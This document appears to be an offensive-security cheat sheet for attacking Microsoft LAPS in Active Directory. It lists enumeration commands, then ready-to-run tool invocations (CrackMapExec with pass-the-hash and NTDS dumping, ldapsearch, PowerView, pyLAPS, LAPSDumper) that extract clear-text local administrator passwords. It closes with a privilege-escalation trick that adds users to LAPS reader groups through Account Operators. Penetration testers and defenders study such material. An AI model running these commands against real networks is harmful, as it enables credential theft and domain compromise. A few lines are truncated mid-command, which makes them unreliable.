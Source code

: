 # ENUMERATION

#### dir "C:\Program\LAPS\CSE"

#### Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'

#### Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'

#### Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'

#### reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

### If admpwd.dll exists, then enumeration is successful.

# LAPS PASSWORD EXTRACTION

### The "ms-mcs-AdmPwd" a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users

#### 1) Get-Command *Admpwd*

#### 2) Find-AdmPwdExtendedRights -Identity *

#### 3) net groups "GROUP_THAT_HAS_ACCESS_TO_LAPS"

#### 4) Get-AdmPwdPassword -ComputerName PC_THAT_HAS_LAPS_ENABLED

## Possible tools: LAPSToolkit, Crackmapexec, ldapsearch

### If a user has access to view the LAPS password, we can use crackmapexec or ldapsearch to dump password:

#### 1) CrackMapExec

 - crackmapexec smb IP_ADDRESS -u USER -p PASSWORD --laps --ntds

 - crackmapexec smb 10.10.10.10 -u 'user' -H '8846f7eaee8fb117ad06bdd830b7586c' --laps

#### 2) ldapsearch

 - ldapsearch -h IP_ADDRESS -b 'DC=DOMAIN,DC=LOCAL' -x -D USER@DOMAIN.LOCAL -w 'PASSWORD' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd

#### 3) LAPSToolkit

 - Get-LAPSComputers

 - Find-LAPSDelegatedGroups

 - Find-AdmPwdExtendedRights

#### 4) adsisearcher (native binary on Windows 8+)

 - ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))"

 - ([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE

#### 5) Powerview

 - Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwd

 - Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

 - Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname

 - Get-AdmPwdPassword -ComputerName wkstn-2 | fl (Find the principals that have ReadProperty on ms-Mcs-AdmPwd

 - Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd (Read the password)

#### 6) pyLAPS (Linux)

### Read the password of all computers

 - ./pyLAPS.py --action get -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip IP_ADDRESS

### Write a random password to a specific computer

 - ./pyLAPS.py --action set --computer 'PC01$' -u 'Administrator' -d 'LAB.local'

#### 7) LAPSDumper (Linux)

 - python laps.py -u 'user' -p 'password' -d 'domain.local'

 - python laps.py -u 'user' -p 'e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c' -d 'domain.local

#### 8) AdmPwd.PS

 - Find-AdmPwdExtendedRights -identity *

 - Find-AdmPwdExtendedRights -identity 'OU' | select-object ExtendedRightHolders

 - get-admpwdpassword -computername COMPUTER_NAME | Select password

# GRANT LAPS ACCESS

### The members of the group "Account Operator" can add and modify all the non admin users and groups. Since LAPS ADM and LAPS READ are considered as non admin groups, it's possible to add an user to them, and read the LAPS admin password

 - Add-DomainGroupMember -Identity 'LAPS ADM' -Members 'user1' -Credential $cred -Domain

 - Add-DomainGroupMember -Identity 'LAPS READ' -Members 'user1' -Credential $cred -Domain
